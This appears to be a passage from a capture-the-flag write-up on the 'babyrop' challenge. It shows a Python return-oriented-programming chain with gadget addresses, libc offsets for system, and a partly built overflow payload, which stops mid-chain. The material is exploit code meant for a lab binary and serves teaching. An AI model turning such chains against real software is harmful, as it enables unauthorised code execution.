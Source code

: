 After each calculations and chaining the gadgets. The result as expected.


![760ad4710464015017e90f8536db37a2.png](/assets/images/SmileyCTF-babyrop/760ad4710464015017e90f8536db37a2.png)

The chain inside PoC. I kept the variable names same with PoC creator.

```python
#...
PUSH_RBP_MOV_RBP_RSP_poprcx = 0x40117a
MOV_RBP_RSP_poprcx = 0x40117b
ADD_EAX_0x2ec3_addrbp0x3debx = 0x401157
ADD_RPBs0x3d_EBX = 0x40115c
ADD_AH_DH = 0x4010b4
ADD_BL_DH = 0x4010bf
POP_RBP = 0x401181
ADD_RSP_8 = 0x401230
RET = 0x401234
POP_RCX = 0x40117e
ADD_BPRCX_AL_poprbp = 0x40115b
MOV_EAX_0_LEAVE = 0x401221

PRINT_CALL = 0x401211

LIBC_POP_RBX = 0x83e21
SYSTEM = 0x58750

writeable = 0x404500

rcxpyld  = p64(ADD_BPRCX_AL_poprbp)
rcxpyld += p64(writeable)

payload = p64(0x5151515151515151)*5
payload += p64(POP_RCX)
payload += p64(0x404011)
payload += p64(POP_RBP)
payload += p64(writeable)
payload += p64(ADD_EAX_0x2ec3_addrbp0x3debx)*1
```